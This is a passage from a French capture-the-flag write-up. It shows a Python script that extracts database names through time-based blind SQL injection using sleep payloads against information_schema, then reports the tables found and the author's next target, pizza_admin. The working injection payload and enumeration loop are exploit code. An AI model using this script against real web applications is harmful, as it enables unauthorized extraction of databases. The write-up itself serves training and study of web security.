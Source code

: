 ```python
    substr_increment = 0
    restart = 75

    while i < restart:
        for current_letter in range(33,122):
            payload=f"'-(select sleep(10) from dual where (select substr(schema_name,1,{substr_increment}) from information_schema.schemata limit {limit},1)='{last_letter+chr(current_letter)}')-- -"
            response = requests.get(f"{url}{payload}&lt=food",cookies=cookie)
            response_time = response.elapsed.total_seconds()
            if chr(current_letter) == '+' or chr(current_letter) == '*':
                pass
            if(i > 75):
                limit += 1
                substr_increment = 1
                last_letter=""
                database_list.append(db_name.lower())
                i = 0
            if(response_time < 10):
                i+=1
                pass
            else:
                substr_increment += 1
                last_letter += chr(current_letter)
                db_name = last_letter              
                print('[+] db_name:',db_name.lower(), sep='')
                i = 0

def main():
    get_database()
    get_tables_name()
    get_columns_name()
    dump_data()

main()
```

*(certaines choses sont à modifier mais ça suffit amplement pour ce CTF)*

Après l’exécution du script, nous pouvons voir que notre payload retrouve la base de donnée suivante : 

![Untitled 4](https://user-images.githubusercontent.com/68467919/210107881-d59c59fa-0893-489d-abae-c85e635e49ea.png)

Après avoir sélectionné cette base de donnée, nous allons pouvoir voir les tables à l’intérieur : 

![Untitled 5](https://user-images.githubusercontent.com/68467919/210107889-7b5d0fa6-9fb0-4ec6-8927-809174062988.png)

**pizza_admin**, **users**, **staff** et **members** pourraient peut-être contenir des informations compromettantes. 

Malheureusement il n’y a rien dans la table ***users*** ni dans la table **staff**. 

Je vais donc chercher dans ***pizza_admin***.
